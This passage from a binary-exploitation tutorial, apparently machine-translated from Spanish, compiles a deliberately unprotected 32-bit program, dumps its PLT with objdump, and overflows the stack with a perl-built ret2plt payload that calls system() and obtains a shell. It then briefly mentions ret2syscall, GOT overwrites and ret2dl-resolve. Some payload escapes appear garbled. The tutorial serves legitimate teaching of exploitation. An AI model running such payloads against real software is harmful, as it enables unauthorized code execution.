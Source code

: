 $ gcc a.c -o a -m32 -no-pie -fno-pie -fno-stack-protector -D\_FORTIFY\_SOURCE=0

$ objdump -d a -j .plt

a: formato del fichero elf32-i386

Disassembling the .plt section:

080483a0 <.plt>:  
80483a0: ff 35 04 a0 04 08 push DWORD PTR ds:0x804a004  
80483a6: ff 25 08 a0 04 08 jmp DWORD PTR ds:0x804a008  
80483ac: 00 00 add BYTE PTR \[eax\],al  
…

080483b0 <strcpy@plt>:  
80483b0: ff 25 0c a0 04 08 jmp DWORD PTR ds:0x804a00c  
80483b6: 68 00 00 00 00 push 0x0  
80483bb: e9 e0 ff ff ff jmp 80483a0 <.plt>

080483c0 <puts@plt>:  
80483c0: ff 25 10 a0 04 08 jmp DWORD PTR ds:0x804a010  
80483c6: 68 08 00 00 00 push 0x8  
80483cb: e9 d0 ff ff ff jmp 80483a0 <.plt>

080483d0 <system@plt>:  
80483d0: ff 25 14 a0 04 08 jmp DWORD PTR ds:0x804a014  
80483d6: 68 10 00 00 00 push 0x10  
80483db: e9 c0 ff ff ff jmp 80483a0 <.plt>

080483e0 <exit@plt>:  
80483e0: ff 25 18 a0 04 08 jmp DWORD PTR ds:0x804a018  
80483e6: 68 18 00 00 00 push 0x18  
80483eb: e9 b0 ff ff ff jmp 80483a0 <.plt>

080483f0 <\_\_libc\_start\_main@plt>:  
80483f0: ff 25 1c a0 04 08 jmp DWORD PTR ds:0x804a01c  
80483f6: 68 20 00 00 00 push 0x20  
80483fb: e9 a0 ff ff ff jmp 80483a0 <.plt>

We found that the dir of system() in the plt is `0x080483d0`. Let´s to exploit (Marx meh).  
``$ ./a `perl -e 'print "A"x140 . "xd0x83x04x08" . "xe0x83x04x08" . "x6cxddxffxff"'`  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAЃ��l���  
sh-4.4$``

Like practically employ a ret2libc, only here we do not leave home. And we enter more deeply into the workings of the PLT and lazy binding, as well as other deeper utilities for exploiting (overwriting entries in the GOT (_Global Offset Table_) and ret2dl-resolve).

Ultimately, if we find no useful role in plt we can use two techniques, which do you prefer to speak first?…Well we start with this.

**Ret2syscall**: If you have gadgets that allow placing the necessary values ​​in the records, you can always make a syscall directly without calling any functions (ROPgadget can make a ropchain that uses this technique to execute execve()).

The other technique is known as [_ret2dl-resolve_](http://phrack.org/issues/58/4.html)_._ We will dedicate an article to him.
